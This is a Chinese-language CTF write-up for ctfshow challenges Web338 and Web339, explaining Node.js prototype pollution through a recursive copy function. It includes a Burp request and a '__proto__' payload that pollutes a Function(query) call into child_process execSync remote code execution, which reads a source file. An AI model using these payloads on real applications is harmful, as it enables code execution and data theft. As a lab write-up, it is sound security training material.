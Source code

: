 # 写在前面

图片如果不是科学上网，可能由于网速原因看不见，如果需要看图可以点击图片链接

# Web338

首先从入口文件看起，`app.js`，发现两个关键路径

```javascript
app.use('/', indexRouter);
app.use('/login', loginRouter);
```

当然主页就不用看了，直接看关键部分，login，从当中我们不难得出需要让`secert.ctfshow==='36dboy'`即可获取flag，这里很简单，原型链污染嘛

```javascript
/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow==='36dboy'){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  } 
});
```

其中涉及到这一部分的利用函数就是`copy`，这是一个递归调用函数，for循环遍历object2当中的key(键)，如果这个键在object1与object2当中都存在，则调用`copy(object1[key], object2[key])`,否则让`object1[key] = object2[key]`

```javascript
function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
  }
```

那如果我们让`object2`为`{"__proto__":{"ctfshow":"36dboy"}}`会发生什么（注意本题当中object1为secret变量）

由于`object1和object2`的对象都具有属性`__proto__`,进入if语句为true，执行

`copy(object1[__proto__], object2[__proto__])`

此时`let key in object2`的`key`为`ctfshow`很明显object1当中没有，所以进入else部分

`object1[ctfshow] = object2[ctfshow]`，成功赋值为`36dboy`

Burpsuite发送请求包即可获取flag

```
POST /login HTTP/1.1
Host: 4ffe41ca-e762-4c9a-b7e1-56edabb0ab85.chall.ctf.show
Content-Length: 34
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Content-Type: application/json
Origin: http://4ffe41ca-e762-4c9a-b7e1-56edabb0ab85.chall.ctf.show
Referer: http://4ffe41ca-e762-4c9a-b7e1-56edabb0ab85.chall.ctf.show/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=176b20985423e8-07d414625df175-3323765-144000-176b209854358f
Connection: close

{"__proto__":{"ctfshow":"36dboy"}}
```



# Web339

这道题开始麻烦起来了，先来分析思路，首先列出本题利用所需要的关键代码

首先是login.js

```
/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow===flag){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  }
});
```

之后是api.js

```
var express = require('express');
var router = express.Router();
var utils = require('../utils/common');


// var query = "return global.process.mainModule.constructor._load('child_process').execSync('whoami');";
/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  res.render('api', { query: Function(query)(query)});
   
});
module.exports = router;
```

我们发现在api.js当中`Function里的query变量没有被引用`，如果我们能够通过原型污染攻击给它赋任意我们想要的值会怎样？？岂不是可以随意执行代码进行RCE了

首先给出我的payload吧，当然嫌麻烦的话里面可以搞成反弹shell的，看自己

```
{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').execSync('cat routes/login.js');"}}
```

通过调试我发现污染到了this,在nodejs当中其指向module.exports，最外层调用的时候会指向global，具体原因还不知道，未来希望能够破解，暂时水平受限，反正看到query到了全局变量里面

![CTFSHOW-WEB339](./pic/CTFSHOW-WEB339.png)

之后我们前往`url/api`界面发起post包即可获得flag